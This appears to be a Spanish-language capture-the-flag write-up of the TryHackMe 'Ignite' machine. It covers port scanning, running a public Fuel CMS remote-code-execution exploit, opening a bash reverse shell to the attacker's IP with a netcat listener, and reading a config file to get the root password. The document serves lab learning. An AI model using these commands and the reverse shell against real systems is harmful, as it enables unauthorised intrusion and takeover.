








## Información General

<h3>Dificultad:  </h3>

<h3> Sistema operativo: Linux </h3> 

<h3> Vulnerabilidad explotada: Remote Code Execution </h3>

<h3> Fecha de resolución: 26/06/2025 </h3>

<h3>Enlace de la mv: <a href="https://tryhackme.com/room/ignite" target="_blank">Ignite</a></h3>

### *Leer el documentro en Ingles:* <a href="ignite_english.md">Ignite</a>

## Reconocimiento

TryHackme nos proporciona la ip de la máquina objetivo **ip_objetivo**

### Escaneo de puertos abiertos

#### Escaneo de puerto TCP

El comando que uso con nmap es:

```
sudo nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn <ip de la máquina objetivo>
```

<p align="center"> 

</p>

<div align="center">

| Open port | Service | Version             |
| --------- | ------- | ------------------- |
| 80        | http    | Apache httpd 2.4.18 |

</div>

#### Escaneo de puerto UDP

```
nmap -sU --top-ports 200 --min-rate=5000 -Pn <Ip de la victima>
```

<p align="center"> 

</p>

**No hemos conseguido nada**

## Exploración

En nmap me aparecía dos path **robots.txt** y **fuel**

```
http://<ipObjetivo>/robots.txt
```

<p align="center"> 

</p>

```
http://<ipObjetivo>/fuel
```

<p align="center"> 

</p>

La **ipObjetivo** resulta que es un **http**, lo investigo, y nos encontramos lo siguiente:

<p align="center"> 

</p>

Introduzco las credenciales, e ingreso al **dashboard**, e investigo y me encuentro lo siguiente:

<p align="center"> 

</p>

Pruebo subir un archivo malicioso .php y me sale lo siguiente:

<p align="center"> 

</p>

*El tipo de archivo que intenta cargar no está permitido*

Intento subir un .txt y me aparece lo siguiente:

<p align="center"> 

</p>

*Se produjo un error al cargar su archivo. Asegúrese de que el servidor esté configurado para cargar archivos de este tamaño y que las carpetas tengan permisos de escritura.*

No encuentro nada, decido investigar en otro lado.

### Fuzzing web

```
gobuster dir -u http://10.10.37.109/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt 
```

<p align="center"> 

</p>

## Explotación

### Explotación 1

Me da por buscar en internet *fuelcsms vulnerabilidad*

<p align="center"> 

</p>

Investigo en foros, y me encuentro con la curiosidad de que esta vulnerabilidad no lo corrigen hasta un año más tarde. Intento buscar un exploit y... en la pagina esta me encuentro un <a href="https://www.exploit-db.com/exploits/50477" target="_blank">**Remote code execution**</a> Justo lo que necesito

<p align="center"> 

</p>

Descargo el exploit en mi maquina atacante y lo intento ejecutar.

```
python3 50477.py
```

<p align="center"> 

</p>

pero el autor del exploit me dice que ingrese la url, entonces quedaría el comando de la siguiente manera:

```
python3 50477.py -u http://<ipObjetivo>
```

<p align="center"> 

</p>

Intento explorar y encontrar mi primera **flag.txt** pero me encuentro con la sorpresa que la cmd esta rota...Por tanto, realizo <a href="https://www.revshells.com" target="_blank">**Reverse Shell**</a> con la ayuda de esta página, con el objetivo de obtener un cmd más estable.

<p align="center"> 

</p>

En primer lugar, abro una terminal, para activar mi puerto de escucha 

```
nc -lvnp 4444
```

En segundo lugar, en mi máquina objetivo realizo el siguiente comando:

```
bash -c "sh -i >& /dev/tcp/10.8.139.36/4444 0>&1"
```

<p align="center"> 

</p>

```
cd /home
cd www-data
cat flag.txt
```

<p align="center"> 

</p>

## Explotación Posterior

#### TTY

```
script /dev/null -c bash
```
**control z**

```
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```
### Escalada de Privilegios

#### Primer comando:

```
sudo -l
```

**No he conseguido nada**
#### Segundo comando:

```
find / -perm -4000 2>/dev/null
```


La pagina que visitamos para ver las vulnerabilidades es <a href="https://gtfobins.github.io" target="_blank">**gtfobins**</a>

**No he conseguido nada**
#### Tercer comando

```
uname -r
```

<p align="center"> 

</p>

Intento buscar información si hay alguna vulnerabilidad con esto, ''parece que sí...'' pero cuando lo llevo acabo, resulta que no me sirve. Me desespero, lloro. y luego me da por **empezar de nuevo**... y mira que sorpresa me llevo.

<p align="center"> 

</p>

Basicamente, quiere decir que en esta ruta esta guardada la contraseña de **root** **fuel/application/config/database.php***, OJO primero observa donde debeis de estar primero:

<p align="center"> 

</p>

```
cat fuel/application/config/database.php
```

<p align="center"> 

</p>

**Nota mental** Antes de ir a lo más difícil, **investiga**, **lee**, **apunta**, porque muchas veces la propia maquina te dice por donde hay que ir. **Aprende ingles** Yo también me lo tengo que aplicar 🤪

```
su root
Whaomi
```

<p align="center"> 

</p>

```
cd /root
cat root.txt
```

<p align="center"> 

</p>

## Conclusión

Esta máquina me ha resultado muy curiosa, y también me ha recordado algo muy importante **investigar, leer, apuntar y repasar** Te ahorra mucho tiempo. Cuando trate de explotar la vulnerabilidad del cms **fuel** fue de lo más curioso porque cuadno me toco investigar, en primer plano, Google me excupe el **Exploit Database RCE**, solo tuve que investigar como usar el exploit escrito en python, y el autor mas buena persona, explicando como tienes que usarlo. Luego te das cuenta que el cmd, esta rotísimo, pero vaya con casi 10 maquinas resueltas, sabes como arregarlo un **reverse shell** y listo. Toca **la escalada de privilegio**, cuando di con la tecla por donde tuve que tirar, me senti super tonto, de todo el tiempo perdido, y aqui es donde viene el aprendizaje de esta máquina **investigar, leer, apuntar y repasar** porque muchas veces en este nivel, la propia maquina te dice donde tiene que buscar. Apartir de ahí, facilmente encontre la última Flag que me quedaba.


